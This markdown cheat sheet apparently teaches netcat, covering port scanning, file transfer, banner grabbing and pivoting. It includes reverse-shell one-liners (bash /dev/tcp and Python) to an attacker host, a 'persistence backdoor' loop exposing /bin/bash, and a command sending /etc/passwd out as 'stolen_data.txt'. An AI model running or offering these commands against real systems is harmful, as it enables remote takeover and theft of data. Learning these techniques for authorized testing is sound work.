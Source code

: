 # NETCAT

Netcat (nc) is called the **Swiss Army knife of networking** because it is a simple yet powerful tool for network communication, It's commonly used for debugging, testing, and even for creating simple client-server applications

Why we use NETCAT

✅ **Lightweight** – Comes pre-installed on most Linux/macOS systems.

✅ **No Dependencies** – Unlike SCP or FTP, it doesn’t require authentication.

✅ **Versatile** – Works for file transfer, port scanning, reverse shells, and more.

✅ **Cross-Platform** – Works on Linux, macOS, and Windows.

### **Security Considerations**

- **Firewall Rules** : Ensure that firewalls allow traffic on the specified ports.
- **Encryption** : Netcat does not encrypt data by default. If you need secure communication, consider using tools like **`openssl`**or **`ssh`**.
- **Permissions** : Be cautious when using Netcat with elevated privileges, especially when opening ports or executing commands remotely.

### **Netcat Variants**

There are several versions of Netcat available, including:

- **GNU Netcat** : The original version.
- **Ncat** : Part of the Nmap project, offers more features and better security.
- **Socat** : A more advanced tool that can handle multiple protocols and connections.

## Netcate Syntax

```bash
nc [options] [hostname] [port]
```

### Common use Cases

1. **Port scanning**
    
    ```bash
    nc -zv <hostname> <start_port>-<end_port>
    ```
    
    - **`z`**: Zero-I/O mode (just scan for listening daemons, don't send any data).
    - **`v`**: Verbose output.
2. **Creating a Simple Chat Server**
    
    **server**
    
    ```bash
    nc -l <port>
    ```
    
    **client**
    
    ```bash
    nc <server_ip> <port>
    ```
    
3.  **File Transfer**
    
    **receiver**
    
    ```bash
    nc -l <port> > received_file
    ```
    
    **sender**
    
    ```bash
    nc <server_ip> <port> < file_to_send
    ```
    
4.  **Banner Grabbing**
    
    **What is banner Grabbing**
    
    ***Banner grabbing*** is a technique used to gain information about a computer system on a network and the services running on its open ports
    
    **GET HTTP Server Banner**
    
    ```bash
    echo -e "HEAD / HTTP/1.1\n\n" | nc <target-ip> 80
    ```
    
5. **Reverse Shell**
    
    **Attacker (listener)**
    
    ```bash
    nc -lvp 4444
    ```
    
    **target (victim machine executes this )**
    
    ```bash
    bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1
    ```
    
    **python-based, if firewalls blocking nc**
    
    ```bash
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
    ```
    
    **Persistence backdoor**
    
    ```bash
    while true; do nc -lvp 5555 -e /bin/bash; done
    ```
    
6. Data exfiltration
    
    **Exfiltrate /etc/passwd over netcate**
    
    **attacker**
    
    ```bash
    nc -lvp 444 > stolen_data.txt
    ```
    
    **vitctim** 
    
    ```bash
    cat /etc/passwd | nc <attacker-ip> 444
    ```
    
7. Port Forwarding & Pivoting 
    
    **forward traffic from port 8080 to 9090**
    
    ```bash
    mkfifo /tmp/f; nc -lvp 8080 0</tmp/f | nc 127.0.0.1 9090 1>/tmp/f
    ```
    
8. Encrypted Netcat session
    
    **Server:**
    
    ```bash
    ncat --ssl -lvp 444
    ```
    
    **client:**
    
    ```bash
    ncat --ssl <target-ip> 4444
    ```
    
9. Connect to a Tor Hidden Service 
    
    **Access .onion service  via netcat**
    
    ```bash
    torsocks nc <hidden-service.onion> 80
    ```